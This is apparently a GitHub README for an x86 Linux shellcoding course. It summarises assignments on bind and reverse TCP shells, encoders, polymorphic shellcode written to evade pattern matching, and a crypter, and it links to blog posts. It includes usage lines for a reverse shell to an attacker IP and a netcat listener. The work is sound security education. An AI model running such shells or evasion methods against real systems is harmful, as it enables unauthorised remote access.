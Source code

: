 <img src="SHELLCODING32.png" alt="SLAEx86" width="100"/>

# x86 Assembly Language and Shellcoding on Linux
# SLAEx86 : Student ID: PA-1191
### Assignment 1
Create a Shell Bind TCP Shellcode
- Binds to a port
- Execs shell on incoming connection
- Port number should be easily configurable
```
Implemeted the TCP Bind Shell shellcode 
Usage example: ./bind_shell <PORT>

In Victim Machine => ./bindshell 9999 

Attacker Machine => nc 127.0.0.1 9999

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-bind-shell-shellcode.html
```
### Assignment 2
Create a Shell Reverse Tcp Shellcode
- Reverse connect to configured IP and Port
- Execs shell on incoming connection
- IP and Port should be easily configurable
```
Implemeted the TCP Reverse Shell shellcode 
Usage example : ./reverse_shell <ATTACKER_IP> <PORT>

Attacker Machine => nc -nlvp 8888

In Victim Machine => ./reverse_shell 127.0.0.1 8888  

Blog : https://oxhat.blogspot.com/2018/04/coding-custom-tcp-reverse-shell.html
```
### Assignment 3
Study about Egg Hunter Shellcode
Create a working demo of the Egg Hunter
Should be configurable for different payload

### Assignment 4
Create a custom encoding scheme  like "Insertion Encoder" we showed you
Poc using execve-stack as the shellcode to encode your schema and execute
```
Implemented a custom encoder where each shellcode value is xored and duplicated to generate the final shellcode
Implemented a custom decoder to decode the encoded shellcode

Usage:
generating encoded shellcode 

Put the shellcode inside the custom_insertion_encoder.py
=> python custom_insertion_encoder.py

decoding and executing
copy and put the encoded shellcode inside the nasm file
=> nasm custom_insertion_decoder.nasm -felf32 -o custom_insertion_decoder.o
=> ld custom_insertion_decoder.o -o custom_insertion_decoder
=> ./custom_insertion_decoder

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-insertion-encoder-and.html
```
### Assignment 5
Take up at least 3 shellcode sample created using Msfpayload for linux/x86
Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
Present your analysis
```
As msfpayload is outdate, all the payloads are created using msfvenom

1. Analysis of linux/x86/adduser shellcode

2. Analysis of linux/x86/chmod shellcode

3. Analysis of linux/x86/exec shellcode

Blog : https://oxhat.blogspot.com/2019/04/analyzing-shellcode.html
```
### Assignment 6
Take upto 3 shellcode from shell-storm and create a polymorphic versions of them to beat patten matching
- The polymorphic versions cannot be larger 150% of the existing shellcode
- Bonus point for making it shorter in length than original
```
1. Implemented 2 polmorphic versions of exit() shellcode 

2. Implmented polymorphic version of cat /etc/password shellcode

3. Implemented a polymorphic and obfuscated version of commandline netcat 

Blog : https://oxhat.blogspot.com/2019/04/polymorphic-shellcodes.html
```
### Assignment 7
Create a custom crypter like the one shown in "crypters" video.
- Free to use any existing encryption schema.
- Can use any programming language.
```
1. Implemented a crypter with encrytion based on one time pad.

Blog : https://oxhat.blogspot.com/2019/04/coding-custom-crypter.html 
```
### Additional Assignments
```
1. Implemented a shellcode for chdir() 
```
### Scripts
```
1. Implmented a bash automation script to generate shellcode from binary
usage: dump.sh binary
There is also an extended version of this inside the same directory.
Sometimes the script does not dump all the shellcode properly so the extended version is used.

2. Implemented an automation script to generate a C code with an embedded shellcode inside it.
usage : python shellcode_template.py filename.c "\x41\x41\x41x\41"
```
